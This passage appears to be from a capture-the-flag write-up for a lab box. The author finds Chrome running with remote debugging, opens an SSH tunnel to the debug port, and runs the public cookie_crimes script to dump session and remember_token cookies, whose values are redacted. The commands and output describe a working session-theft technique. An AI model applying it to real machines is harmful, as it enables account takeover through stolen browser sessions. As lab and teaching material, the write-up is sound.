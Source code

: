 Chrome was running with remote debugging enabled.

```bash
runner      1177  2.8  3.9 1184764352 157824 ?   Sl   23:48   0:01 /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1123 --lang=en-US --enable-automation --enable-logging --log-level=0 --remote-debugging-port
root        1192  0.1  0.2  17176 10868 ?        Ss   23:48   0:00 sshd: corum [priv]
corum       1195  0.1  0.2  17056  9440 ?        Ss   23:48   0:00 /lib/systemd/systemd --user
```

After some research, I found a [blog post](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) and a [GitHub repository](https://github.com/defaultnamehere/cookie_crimes) that explained how to use the Chrome API to read all the cookies from an instance running with remote debugging.

I started an SSH tunnel to be able to reach the Chrome debugging API from my machine.

```bash
$ ssh -L 9222:localhost:41829 corum@target
corum@target's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)
```

I had to make a few changes to the script to get it to work, but I got it to extract the cookies to a test version of the password manager.

```bash
$ python cookie_crimes.py
[
    {
        "domain": "test.superpass.htb",
        "expires": 1711497543.559996,
        "httpOnly": true,
        "name": "remember_token",
        "path": "/",
        "priority": "Medium",
        "sameParty": false,
        "secure": false,
        "session": false,
        "size": 144,
        "sourcePort": 80,
        "sourceScheme": "NonSecure",
        "value": "1|REDACTED"
    },
    {
        "domain": "test.superpass.htb",
        "expires": -1,
        "httpOnly": true,
        "name": "session",
        "path": "/",
        "priority": "Medium",
        "sameParty": false,
        "secure": false,
        "session": true,
        "size": 215,
        "sourcePort": 80,
        "sourceScheme": "NonSecure",
        "value": "REDACTED"
    }
]
```
